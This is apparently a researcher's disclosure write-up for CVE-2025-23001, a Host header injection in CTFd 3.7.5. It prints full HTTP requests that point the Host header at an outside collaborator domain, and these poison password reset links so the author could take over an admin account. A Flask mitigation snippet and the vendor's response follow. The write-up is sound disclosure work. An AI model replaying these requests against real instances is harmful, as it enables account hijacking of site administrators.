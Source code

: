 ```yaml
---
date: 2025-08-16 09:30:00 PM
---
```


# POC CVE-2025-23001 CTFd 3.7.5

> Posted by TheWindGhost — 31/01/2025, Updated: 19/04/2025
>
> Report co-authors:
>
> - h??? (PTIT Ho-Chi-Minh City)
> - thD (VLUTE Vinh-Long City)
> - taneora (HUST Ha-Noi City)

The vulnerability was originally discovered by **TheWindGhost** (Security Researcher), who was the first to identify and
confirm the issue. Co-Authors contributed technical write-up, report structuring, and analysis.

---

## 1. Introduction

I first examined the CTFd source code and noticed that it did not secure or filter the Host header. This is where the
vulnerability starts.

![MITRE Reply With CVE-ID](https://thewindghost.github.io/posts/image-post/cve-2025-23001/1.png)

---

![Host Header Injection POC](https://thewindghost.github.io/posts/image-post/cve-2025-23001/2.png)

---

## 2. Host Header Injection

The request looks like this:

```http
- Test Host Header Injection
GET / HTTP/2
Host: 0ghb7us820bm4l90zd2vvixkhbn2bszh.oastify.com
Cookie: delete
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

I changed the Host header to use my Burp Suite collaborator. If the request is received by my server, this is a bug.

---

## 3. Exploit the Vulnerability & Steps to Exploit Reset Password

I logged into my user account and reset my password. The password reset token was included in the URL. Next, I attempted
to exploit this to reset the admin’s password.
![Reset Link Real](https://thewindghost.github.io/posts/image-post/cve-2025-23001/3.png)

I obtained the admin’s email from Discord and sent a request to reset the password:
![Password Reset Form](https://thewindghost.github.io/posts/image-post/cve-2025-23001/4.png)

```http
- Exploit Host Header Injection
POST /reset_password HTTP/2
Host: zx0aot97jzsllkqzgcjuchejya41ssgh.oastify.com
Cookie: delete
Content-Length: 120
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=mail-victim%40gmail.com&_submit=Submit&nonce=fake-937dd2059eb240c25ca77ff5743d4aee
```

And i change domain collaborator in host header request
![Hijacked Password Reset](https://thewindghost.github.io/posts/image-post/cve-2025-23001/5.png)

Then, I waited for the admin to click the reset link and successfully hijacked the password reset process.
![Hijacked Successfully](https://thewindghost.github.io/posts/image-post/cve-2025-23001/6.png)

Okay and we will reset password for login account admin.
![Reset Password Account Admin Screenshot](https://thewindghost.github.io/posts/image-post/cve-2025-23001/7.png)

Finally, I successfully exploited the vulnerability. One hour later, I spoke with the developer, but he didn’t understand that I had hacked and gained access to his account. I explained it to him and asked him to send me a screenshot of the email.

![Admin Account Access](https://thewindghost.github.io/posts/image-post/cve-2025-23001/8.png)
![Email Screenshot](https://thewindghost.github.io/posts/image-post/cve-2025-23001/9.png)

---

## 4. Security Fix

```python
- To secure against this vulnerability, add the following code:
import os
import re
from flask import request, abort
from CTFd import create_app

ALLOWED_HOSTS = {
"example.com", # change domain server
"192.168.1.1", # change ip public
}

ALLOWED_PROXIES = {"127.0.0.1", "192.168.1.1"} # change ip public

BLOCKED_HOST_REGEX = re.compile(r"^(localhost|127\.0\.0\.1|0\.0\.0\.0|::1|local)$", re.IGNORECASE)

app = create_app()

@app.before_request
def strict_host_protection():
host = request.headers.get("Host", "").split(":")[0]
forwarded_host = request.headers.get("X-Forwarded-Host", "").split(":")[0]
remote_addr = request.remote_addr
forwarded_for = request.headers.get("X-Forwarded-For", "").split(",")[0].strip()
real_ip = forwarded_for if forwarded_for else remote_addr

if forwarded_host and forwarded_host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {forwarded_host} -> {real_ip}")
abort(400)

if remote_addr in ALLOWED_PROXIES:
if BLOCKED_HOST_REGEX.match(host) or host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {host} -> {real_ip}")
abort(400)
else:
abort(400)

if __name__ == "__main__":
app.run(debug=False, host="127.0.0.1", port=4000)
```

Apply my security code to safeguard against this vulnerability and ensure we are protected!
![Reproduce HHI Again](https://thewindghost.github.io/posts/image-post/cve-2025-23001/10.png)
![Email Dev](https://thewindghost.github.io/posts/image-post/cve-2025-23001/11.png)

---

## 5. Vendor Response

When I reached out to the CTFd vendor, they told me that users need to configure Nginx for security. However, according to cybersecurity best practices, security should be built by design and by default. CTFd does not follow this policy.

**MITRE** accepted my submission based on this reasoning.

I would like to express my gratitude to **MITRE** for its fairness in managing CVE updates.
![Secure by default and design](https://thewindghost.github.io/posts/image-post/cve-2025-23001/12.png)

> **Secure by Design and Secure by Default**
>
> - [Beginner’s Guide on Secure byDesign](https://safestack.io/blog/resources/secure-by-design-and-default-a-beginners-guide)
> - [CISA: Secure by Design](https://www.cisa.gov/securebydesign)
